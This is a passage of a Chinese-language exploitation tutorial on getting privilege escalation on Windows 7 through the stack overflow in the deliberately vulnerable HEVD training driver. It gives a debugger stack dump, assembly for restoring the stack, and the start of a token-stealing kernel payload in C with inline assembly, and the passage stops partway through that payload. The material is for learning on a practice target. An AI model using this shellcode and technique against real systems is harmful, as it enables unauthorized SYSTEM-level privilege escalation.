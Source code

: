 #### <a class="reference-link" name="%E6%8F%90%E6%9D%83%E6%94%BB%E5%87%BB(Win7)"></a>提权攻击(Win7)

由于Win7上暂时没有太多的防护，所以可以直接使用拷贝token的方式进行提权。这里直接通过计算好返回值所需要的padding，然后让返回的地址跳转到我们自己申请的内存空间上来实现攻击。不过这里要考虑一件事情：以前我们都是直接弹出一个cmd结束攻击，然而提权攻击却不能只弹出一个cmd就完成攻击，这意味着类似BufferOverflow这类攻击如果将栈的内容进行了修改之后，我们需要有一个**防止系统发现栈被破坏**的操作。为了实现这一点，我们需要先观察一下栈中的内容:

```
eax=00000000 ebx=9bf375f0 ecx=00000000 edx=00000000 esi=c00000bb edi=9bf37580
eip=9ddf4dde esp=a36bda14 ebp=a36bda14 iopl=0         nv up ei ng nz na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000286
HackSysExtremeVulnerableDriver!StackOverflowIoctlHandler+0x20:
9ddf4dde 5d              pop     ebp; ret     8
1: kd&gt; ddp esp
a36bda14  a36bda30 ;上一个栈的ebp
a36bda18  9ddf42d3 ;函数返回值，即将被我们劫持
a36bda1c  9bf37580 ;
a36bda20  9bf375f0 
a36bda24  00060000 ;ret之后，esp实际指向的位置
a36bda28  a79efa88 
a36bda2c  b01a6b0e 
a36bda30  a36bda4c ;函数 StackOverflowIoctlHandler 保存的的ebp
a36bda34  81a3f958 ;函数 StackOverflowIoctlHandler 保存的返回值
a36bda38  a79efa88 00b80003
a36bda3c  9bf37580 00940006
```

在距离返回值地址的0x18的位置上，正好有上一个函数的返回地址，所以当我们劫持了这个函数返回值的时候，在shellcode的末尾，我们可以加上一些额外的指令来实现恢复栈

```
xor eax, eax  ;伪装返回值
add esp, 12   ;将栈调整到 StackOverflowIoctlHandler 的位置上
pop ebp 
ret 8         ;这个地方照着 TriggerStackOverFlow 的结尾汇编写
```

这里我们参考HEVD给出的参考答案:

```
#include "pch.h"
#include "payload.h"
#include &lt;iostream&gt;
#include &lt;Windows.h&gt;

#define DEVICE_NAME L"\\\\.\\HackSysExtremeVulnerableDriver"

VOID TokenStealingPayloadWin7() `{`
    // Importance of Kernel Recovery
    __asm `{`
        pushad; Save registers state

        ; Start of Token Stealing Stub
        xor eax, eax; Set ZERO
        mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
        ; _KTHREAD is located at FS : [0x124]

        mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

        mov ecx, eax; Copy current process _EPROCESS structure

        mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4

        SearchSystemPID:
        mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
        sub eax, FLINK_OFFSET
        cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
        jne SearchSystemPID
```